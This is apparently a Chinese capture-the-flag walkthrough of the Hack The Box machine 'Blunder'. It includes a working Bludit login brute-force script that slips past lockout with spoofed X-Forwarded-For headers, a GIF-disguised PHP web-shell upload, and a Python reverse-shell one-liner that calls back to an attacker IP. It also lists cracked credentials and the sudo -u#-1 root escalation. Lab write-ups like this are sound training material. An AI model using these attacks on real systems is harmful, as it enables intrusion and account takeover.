# Blunder\_191



只开了80一个端口




robots.txt




似乎是后台登录页面。




[https://www.exploit-db.com/exploits/48568](https://www.exploit-db.com/exploits/48568)




虽然存在一个漏洞利用方法，但是明显需要有效凭证。

浏览了打出来的很多页面，但是没有更多信息了。

尝试fuzz根目录下的文件，看看是否有更多线索。

```bash
wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/big.txt -z list,txt-php-html -u http://10.10.10.191/FUZZ.FUZ2Z --hc 404,403 -t 100
```


CMS刚升级完，估计不存在漏洞利用。

让通知`fergus`新博客需要图片，那这个人可能是网站管理员。

看来我们拥有用户名和登录页面，剩下就是暴力破解了。

抓登录包分析



有token，常用暴力工具显然无法成功。google了一下发现了一个暴力脚本

[https://github.com/musyoka101/Bludit-CMS-Version-3.9.2-Brute-Force-Protection-Bypass-script/blob/master/bruteforce.py](https://github.com/musyoka101/Bludit-CMS-Version-3.9.2-Brute-Force-Protection-Bypass-script/blob/master/bruteforce.py)

修改已符合我们当前情况

```python
#!/usr/bin/env python3
import re
import requests

host = "http://10.10.10.191" # change to the appropriate URL

login_url = host + '/admin/login'
username = 'fergus' # Change to the appropriate username
fname = "wordlist.txt" #change this to the appropriate file you can specify the full path to the file
with open(fname) as f:
    content = f.readlines()
    word1 = [x.strip() for x in content] 
wordlist = word1

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```





```bash
fergus:RolandDeschain
```

成功登录



制作一个伪造的gif cmd shell，并上传

```bash
vim gif_shell.gif
```




我们伪造的后缀是gif，在上传时使用bp进行抓包，修改文件名后缀为php



验证

```bash
http://10.10.10.191/bl-content/tmp/gif_shell.php?cmd=id
```


执行命令，在1337端口监听以获得rshell

```bash
http://10.10.10.191/bl-content/tmp/gif_shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.189",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


经过一些搜寻枚举后发现



```bash
hugo:faca404fd5c0a31cf1897b823c695c85cffeb98d
```



```bash
hugo:Password120
```

直接切换用户



切换后的提权极为简单，`!root`参数，这种情况一句话即可提权`sudo -u#-1 /bin/bash`

参考[https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

先拿user.txt



提权


